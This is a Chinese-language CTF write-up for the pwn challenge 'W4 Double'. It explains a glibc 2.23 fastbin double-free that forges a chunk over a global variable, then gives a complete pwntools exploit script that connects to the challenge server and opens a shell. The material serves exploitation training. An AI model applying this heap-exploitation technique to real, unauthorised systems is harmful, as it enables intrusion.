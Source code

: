 # W4 Double

## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好

![double free legend](../assets/doubleFree.png)

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
